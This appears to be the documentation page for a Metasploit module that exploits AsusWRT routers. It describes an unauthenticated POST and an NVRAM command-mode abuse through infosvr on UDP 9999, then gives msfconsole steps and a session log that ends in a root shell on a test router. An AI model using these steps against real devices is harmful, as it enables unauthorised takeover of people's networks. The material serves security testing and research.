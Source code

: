 ## Description

  This module exploits a vulnerability in AsusWRT to execute arbitrary commands as `root`.


## Vulnerable Application

  The HTTP server in AsusWRT has a flaw where it allows an unauthenticated client to perform a HTTP `POST` in certain cases. This can be combined with another vulnerability in the VPN configuration upload routine that sets NVRAM configuration variables directly from the `POST` request to enable a special command mode.

  This command mode can then be abused by sending a UDP packet to the infosvr service, which is running on port UDP 9999 on the LAN interface, to launch the Telnet daemon on a random port and gain an interactive remote shell as the `root` user.

  This module was tested successfully with a RT-AC68U running AsusWRT version 3.0.0.4.380.7743.

  Numerous ASUS models are reportedly affected, but untested.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploits/linux/http/asuswrt_lan_rce`
  3. `set RHOST [IP]`
  4. `run`
  5. You should get a *root* session


## Options

  **ASUSWRTPORT**

  AsusWRT HTTP portal port (default: `80`)


## Scenarios
msf > use exploit/linux/http/asuswrt_lan_rce
msf exploit(linux/http/asuswrt_lan_rce) > set rhost 192.168.132.205
rhost => 192.168.132.205
msf exploit(linux/http/asuswrt_lan_rce) > run

[+] 192.168.132.205:9999 - Successfully set the ateCommand_flag variable.
[*] 192.168.132.205:9999 - Packet sent, let's sleep 10 seconds and try to connect to the router on port 51332
[+] 192.168.132.205:9999 - Success, shell incoming!
[*] Found shell.
[*] Command shell session 1 opened (192.168.135.111:36597 -> 192.168.132.205:51332) at 2018-01-25 14:51:12 -0600

id
id
/bin/sh: id: not found
/ # cat /proc/cpuinfo
cat /proc/cpuinfo
system type             : Broadcom BCM53572 chip rev 1 pkg 8
processor               : 0
cpu model               : MIPS 74K V4.9
BogoMIPS                : 149.91
wait instruction        : no
microsecond timers      : yes
tlb_entries             : 32
extra interrupt vector  : no
hardware watchpoint     : yes
ASEs implemented        : mips16 dsp
shadow register sets    : 1
VCED exceptions         : not available
VCEI exceptions         : not available

unaligned_instructions  : 0
dcache hits             : 2147483648
dcache misses           : 0
icache hits             : 2147483648
icache misses           : 0
instructions            : 2147483648
/ #
